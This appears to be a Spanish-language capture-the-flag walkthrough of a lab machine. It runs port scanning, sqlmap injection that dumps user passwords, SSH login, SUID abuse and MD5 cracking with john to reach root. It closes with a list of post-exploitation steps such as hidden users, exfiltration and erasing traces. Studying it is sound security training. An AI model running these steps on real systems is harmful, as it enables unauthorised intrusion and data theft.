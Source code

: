 # 🛡️ Guía de Explotación y Escalada de Privilegios

## 1. 📡 Comprobación de Conectividad

```bash
ping 172.17.0.2
```

---

## 2. 🔍 Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

✅ **Puertos abiertos detectados:**

| Puerto | Servicio |
|--------|----------|
| 22/tcp | SSH      |
| 80/tcp | HTTP     |

---

## 3. 🔎 Detección de Versiones de Servicios

```bash
nmap -p22,80 -sCV 172.17.0.2
```

**Resultados:**

| Puerto | Servicio                      |
|--------|-------------------------------|
| 22/tcp | OpenSSH 9.2p1 Debian 2+deb12u3 |
| 80/tcp | Apache httpd 2.4.61 (Debian)   |

---

## 4. 📁 Enumeración de Directorios vía HTTP

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt
```

❌ No se encontraron directorios relevantes.

🔍 Sin embargo, **se detectó un `login.html`** manualmente.

---

## 5. 💉 Pruebas de Inyección SQL con `sqlmap`

### a. Enumeración de bases de datos

```bash
sqlmap -u http://172.17.0.2/login.html --forms --dbs --batch
```

**Bases de datos disponibles:**

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users

### b. Tablas en la base de datos `users`

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users --tables
```

| Tabla     |
|-----------|
| usuarios  |

### c. Columnas en la tabla `usuarios`

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --columns
```

+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+

### d. Extracción de datos

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --dump
```

+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+

---

## 6. 🔐 Acceso vía SSH

```bash
ssh pepe@172.17.0.2
```

✅ Acceso conseguido con el usuario **pepe**

⚠️ No se encuentra el comando `sudo`.

---

## 7. 🔍 Búsqueda de Archivos con Permisos SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Resultados interesantes:**

- `/usr/bin/ls`
- `/usr/bin/grep`

---

## 8. 🕵️ Acceso a `/root` con SUID

```bash
ls /root
```

✅ Archivo encontrado: `pass.hash`

---

## 9. 🔓 Descifrado de Hash con `john`

### Contenido del archivo `pass.hash`:

```
e43833c4c9d5ac444e16bb94715a75e4
```

### Comando utilizado:

```bash
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Resultado:

✅ Contraseña encontrada: **spongebob34**

---

## 10. 🧠 Tabla Explicativa del Comando `john`

| Parte del Comando                                      | Explicación                                                                 |
|--------------------------------------------------------|-----------------------------------------------------------------------------|
| `john`                                                 | Ejecuta la herramienta John the Ripper.                                    |
| `--format=raw-md5`                                     | Especifica el tipo de hash (en este caso MD5 sin sal).                     |
| `hash.txt`                                             | Archivo que contiene el hash a descifrar.                                  |
| `--wordlist=/usr/share/wordlists/rockyou.txt`          | Diccionario de palabras comunes que se usarán para intentar descifrarlo.   |

---

## 11. 🧑‍💻 Escalada a Root

Con la contraseña **spongebob34**, se obtiene acceso como **root**.

---

## 12. 🔐 Post-Explotación

Acciones sugeridas tras obtener acceso root:

- ✅ Establecer persistencia  
- 👤 Crear un usuario oculto  
- 🔐 Añadir clave pública SSH  
- 📂 Exfiltrar información sensible  
- 🌐 Explorar red interna  
- 🔄 Realizar pivoting a otras máquinas  
- 🧹 Eliminar rastros  
- ⚠️ *Destrucción del sistema (no recomendada)*

---

🎉 ¡Acceso root conseguido exitosamente!
```

---

¿Quieres que te genere también una versión en PDF o HTML para compartir o imprimir?
